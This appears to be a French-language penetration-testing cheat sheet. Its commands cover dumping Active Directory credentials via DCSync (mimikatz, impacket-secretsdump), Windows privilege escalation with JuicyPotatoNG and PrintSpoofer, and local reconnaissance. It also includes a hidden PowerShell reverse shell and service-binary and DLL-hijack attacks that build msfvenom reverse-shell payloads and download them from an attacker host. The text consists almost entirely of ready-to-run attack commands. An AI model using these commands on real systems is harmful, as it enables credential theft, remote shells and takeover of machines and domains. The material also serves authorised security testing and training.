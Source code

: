 **DC Sync**

    C:\tools\mimikatz.exe
    mimikatz # lsadump::dcsync /user:DOMAINE\Jack
    ----- OU -----
    impacket-secretsdump -just-dc-user Jack DOMAINE/Tim:Mdp123@192.168.100.100

## Privilege Escalation

### Windows

**Victoire directe**

    ./JuicyPotatoNG.exe -t * -p "C:\Windows\system32\cmd.exe" -a "/c powershell -nop -w hidden -e [Reverse-shell Base64]"
    ./PrintSpoofer.exe -c "cmd.exe"

**Reconnaissance sommaire sans outils**

    whoami /priv
    whoami /groups
    systeminfo
    ipconfig /all
    route print
    netstat -ano
    ((Get-PSReadlineOption).HistorySavePath)
    dir C:\
    schtasks /query /fo LIST /v | Select-String Author,TaskName
    Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
    Get-LocalUser
    Get-LocalGroup
    Get-LocalGroupMember
    Get-Process
    Get-Service
    Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select DisplayName
    Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select DisplayName
    Get-ChildItem -Path C:\ -Include *.log -File -Recurse -ErrorAction SilentlyContinue
    Get-ChildItem -Path C:\Users -File -Recurse -ErrorAction SilentlyContinue

**Remplacement de service mal configuré**

    msfvenom -p windows/shell/reverse_tcp LHOST=192.168.50.100 LPORT=8888 -f exe -o rev_tcp.exe
    ...
    iwr -Uri http://192.168.50.100/rev_tcp.exe -Outfile .\rev_tcp.exe
    Rename-Item C:\Dossier\MonService.exe C:\Dossier\MonService_old.exe
    Copy-Item .\rev_tcp.exe C:\Dossier\MonService.exe
    net stop MonService
    net start MonService

**Injections de DLL manquantes**

    C:\tools\Procmon\Procmon64.exe
    Restart-Service MonService
    ...
    x86_64-w64-mingw32-gcc MaDLL.cpp --shared -o MaDLL.dll
    msfvenom -p windows/shell/reverse_tcp LHOST=192.168.50.100 LPORT=9999 -f dll > shell.dll
    ...
    iwr -uri http://192.168.50.100/MaDLL.dll -Outfile MaDLL.dll
    iwr -uri http://192.168.50.100/shell.dll -Outfile MaDLL2.dll
    Restart-Service MonService

